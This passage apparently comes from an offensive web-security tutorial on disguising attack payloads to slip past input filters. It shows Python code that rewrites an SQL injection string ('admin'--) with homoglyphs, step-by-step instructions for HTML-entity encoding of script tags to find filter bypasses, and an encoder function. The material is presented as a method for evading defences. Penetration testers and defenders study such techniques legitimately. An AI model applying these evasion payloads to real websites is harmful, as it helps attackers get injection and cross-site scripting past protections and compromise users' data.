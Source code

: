        def obfuscate_with_homoglyphs(text):
           result = ""
           for char in text:
               if char in homoglyphs:
                   result += homoglyphs[char]
               else:
                   result += char
           return result
       
       # Example payload obfuscation
       payload = "SELECT * FROM users WHERE username='admin'--"
       obfuscated = obfuscate_with_homoglyphs(payload)
       
       print("Original:", payload)
       print("Obfuscated:", obfuscated)
       ```

  - **HTML encoding techniques**
    1. **HTML entity obfuscation**:
       - Step 1: Identify characters in your payload that can be HTML-encoded
       - Step 2: Replace them with their HTML entity equivalents (named or numeric)
       - Step 3: Test different encoding variations to find filter bypasses
       - Step 4: Create a payload mixing encoded and plain characters
       - Step 5: Submit the obfuscated payload and check for execution
       - Example: Convert `<script>` to `&lt;script&gt;` or `&#60;script&#62;`
       - Decimal vs. hexadecimal encoding: `&#97;` vs. `&#x61;` for 'a'
       - Testing insight: Some filters check for decoded values while others match exact patterns
       - Python script for HTML entity encoding:
       ```python
       def html_encode_payload(payload, encoding_type="decimal"):
           result = ""
           for char in payload:
               if encoding_type == "decimal":
                   result += "&#" + str(ord(char)) + ";"
               elif encoding_type == "hex":
                   result += "&#x" + hex(ord(char))[2:] + ";"
               elif encoding_type == "named" and char in html_entities:
                   result += "&" + html_entities[char] + ";"
               else:
                   result += char
           return result
       
       # HTML entity map (partial)
       html_entities = {
           '<': 'lt',
           '>': 'gt',
           '"': 'quot',
           "'": 'apos',
           '&': 'amp',
           ' ': 'nbsp'
       }
       